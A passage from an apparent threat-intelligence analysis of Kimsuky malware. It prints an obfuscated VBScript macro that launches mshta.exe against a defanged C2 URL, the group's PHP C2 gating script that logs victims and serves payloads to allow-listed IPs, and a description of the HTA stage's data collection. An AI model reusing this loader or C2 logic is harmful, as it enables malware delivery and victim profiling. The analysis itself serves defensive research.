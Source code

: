 


12345

cmd = "c" + "md /" + "c c" + "md /" + "c cm" + "d /" + "c c" + "m" + "d /" + "c c" + "md /" + "c c" + "md /" + "c msht" + "a.e" + "xe hxxp://leehr24.mywebcommunity[.]org/h.php"Shell cmd, 0Sleep 9000cmd = "cm" + "d /" + "c TAS" + "KKI" + "LL /" + "F /" + "IM msh" + "ta.e" + "xe"Shell cmd, 0




Luckily, we discovered the corresponding C2 script (h.php) from our telemetry. This script saves incoming traffic information to the log.txt file including the date, IP address, user-agent and the right-most 20 characters of the IP MD5 hash which is internally called “TID” (probably short for “Target ID”). Next, it checks the presence of the allow.txt file that contains IP addresses of verified victims. Only if the client’s IP address exists in the allow.txt, is the next stage payload, h.txt, delivered. Otherwise, the script delivers a short Visual Basic Script for terminating the mshta.exe process.





$downfile = "h.txt";
$logfile = "log.txt";
$allow_file = "allow.txt";

$handle = fopen($logfile, "ab");
fwrite($handle, $date ."\r\n" . $ip . "\r\n" . $_SERVER['HTTP_USER_AGENT']."\r\n"."id=".$TID."---------\r\n");
fclose($handle);

if(file_exists($allow_file)){
    $fp = fopen($allow_file,"r");
    $content = fread($fp, filesize($allow_file));
    fclose($fp);
    if(!stristr($content,$ip )){
   	 echo 'Set objShell = CreateObject("Wscript.shell")
    	objShell.run "TASKKILL /F /IM mshta.exe" , 0 , False';
   	 exit;
    }
}




123456789101112131415161718

$downfile = "h.txt";$logfile = "log.txt";$allow_file = "allow.txt"; $handle = fopen($logfile, "ab");fwrite($handle, $date ."\r\n" . $ip . "\r\n" . $_SERVER['HTTP_USER_AGENT']."\r\n"."id=".$TID."---------\r\n");fclose($handle); if(file_exists($allow_file)){    $fp = fopen($allow_file,"r");    $content = fread($fp, filesize($allow_file));    fclose($fp);    if(!stristr($content,$ip )){   	 echo 'Set objShell = CreateObject("Wscript.shell")    	objShell.run "TASKKILL /F /IM mshta.exe" , 0 , False';   	 exit;    }}




VBS scripts from VBS Server
Allowing the macro in the malicious Word document to run leads the victim to fetch and execute an HTML Application (.HTA) payload. The fetched HTA file has two main goals: reporting the victim information to the C2 server and creating a scheduled task for auto-execution. The Kimsuky group tends to heavily reuse their code in various scripts; for instance, Visual Basic applications in macros, Visual Basic scripts and HTML applications.
The sent data contains the ProgramFiles folder path, antivirus name, recently opened file list, user name, OS name, OS version, Microsoft office version, .NET framework version, the file list from the Desktop folder, and a list of user-pinned taskbar items. When the script delivers the collected information to the C2 server, it uses /info.php?ki87ujhy= format, the Kimsuky group’s usual URL format for fingerprinting. Notably, it uses a hard-coded user-agent, including the intentionally misspelled word Chnome. After looking at the server-side script, we understand why they use Chnome and not Chrome.
